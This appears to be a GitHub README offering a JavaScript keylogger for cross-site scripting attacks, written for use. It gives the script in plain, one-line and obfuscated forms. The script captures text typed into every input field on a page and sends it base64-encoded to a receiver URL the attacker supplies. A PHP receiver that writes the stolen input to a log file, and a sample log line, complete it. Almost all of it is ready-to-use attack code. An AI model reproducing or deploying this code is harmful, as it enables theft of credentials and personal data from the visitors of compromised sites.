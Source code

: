 Simple Keylogger written in JavaScript to be used in XSS attacks
===

The script creates an event to detect the insertion of text in each text field of type "input" and sends the written content to the specified server that will have the second script called "receiver.php" running.

## JavaScript Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var str = "";
var lastPress = Date.now();
var sent = true;
var declared = false;
var element = "";

var inputs = document.querySelectorAll('input');
for (i = 0; i < inputs.length; i++) {
    inputs[i].oninput = function(e) {
        str = e.target.value;
        element = e.target.outerHTML;
        sent = false;
        lastPress = Date.now();
    }
}

if (declared === false) {
    declared = true;
    var req = new XMLHttpRequest();
    window.setInterval(function() {
        if (sent === false && (Date.now() - lastPress) >= 2000) {
            sent = true;
            req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE", true);
            req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            req.send("str="+btoa(element+" -> "+str));
        }
    }, 500);
}
```

## JavaScript One Line Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var str="";var lastPress=Date.now();var sent=true;var declared=false;var element="";var inputs=document.querySelectorAll('input');for(i=0;i<inputs.length;i++){inputs[i].oninput=function(e){str=e.target.value;element=e.target.outerHTML;sent=false;lastPress=Date.now()}}if(declared===false){declared=true;var req=new XMLHttpRequest();window.setInterval(function(){if(sent===false&&(Date.now()-lastPress)>=2000){sent=true;req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE",true);req.setRequestHeader("Content-type","application/x-www-form-urlencoded");req.send("str="+btoa(element+" -> "+str))}},500)}
```

## JavaScript Ofuscated Source Code

*- Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script*

```javascript
var _0x46009d=_0x1166;(function(_0x5240e0,_0xa2a147){var _0x2b658c=_0x1166,_0x471711=_0x5240e0();while(!![]){try{var _0x2785e6=-parseInt(_0x2b658c(0xdc))/0x1*(parseInt(_0x2b658c(0xdf))/0x2)+-parseInt(_0x2b658c(0xd9))/0x3+-parseInt(_0x2b658c(0xdb))/0x4+-parseInt(_0x2b658c(0xe2))/0x5+-parseInt(_0x2b658c(0xeb))/0x6+parseInt(_0x2b658c(0xde))/0x7*(-parseInt(_0x2b658c(0xe5))/0x8)+parseInt(_0x2b658c(0xdd))/0x9;if(_0x2785e6===_0xa2a147)break;else _0x471711['push'](_0x471711['shift']());}catch(_0x5579f9){_0x471711['push'](_0x471711['shift']());}}}(_0x1591,0x629fd));var str='',lastPress=Date[_0x46009d(0xe8)](),sent=!![],declared=![],element='',inputs=document[_0x46009d(0xda)](_0x46009d(0xd5));for(i=0x0;i<inputs[_0x46009d(0xd8)];i++){inputs[i][_0x46009d(0xe3)]=function(_0x37b8b9){var _0x83cbfa=_0x46009d;str=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd6)],element=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd7)],sent=![],lastPress=Date[_0x83cbfa(0xe8)]();};}function _0x1591(){var _0x4419c4=['str=','open','2552125XAdCtV','oninput','setInterval','589216BpoPwR','TYPE_THE_RECEIVER.PHP_URL_HERE','application/x-www-form-urlencoded','now','target','send','2332524ujwUnQ','input','value','outerHTML','length','908493niXoGr','querySelectorAll','2406004KvWXcB','16739DEdXzG','28635201KKIsoe','56tjjgLb','46uBySdK'];_0x1591=function(){return _0x4419c4;};return _0x1591();}function _0x1166(_0x31ece7,_0x2e443e){var _0x159156=_0x1591();return _0x1166=function(_0x116607,_0x4a095d){_0x116607=_0x116607-0xd5;var _0x226807=_0x159156[_0x116607];return _0x226807;},_0x1166(_0x31ece7,_0x2e443e);}if(declared===![]){declared=!![];var req=new XMLHttpRequest();window[_0x46009d(0xe4)](function(){var _0x40b287=_0x46009d;sent===![]&&Date[_0x40b287(0xe8)]()-lastPress>=0x7d0&&(sent=!![],req[_0x40b287(0xe1)]('POST',_0x40b287(0xe6),!![]),req['setRequestHeader']('Content-type',_0x40b287(0xe7)),req[_0x40b287(0xea)](_0x40b287(0xe0)+btoa(element+'\x20->\x20'+str)));},0x1f4);}
```

## PHP Source Code

```php
<?php
    header('Access-Control-Allow-Origin: *');
    if (isset($_POST['str']) && strlen($_POST['str']) > 0) {
        file_put_contents("keylog.log", date('Y/m/d h:i:s')." | ".base64_decode($_POST['str']).PHP_EOL, FILE_APPEND);
    }
?>
```

## Log Output Example

```
2022/01/02 07:50:48 | <input type="text" id="inputTestId" name="inputTestName" class="inputTestClass"> -> This is a log example
```
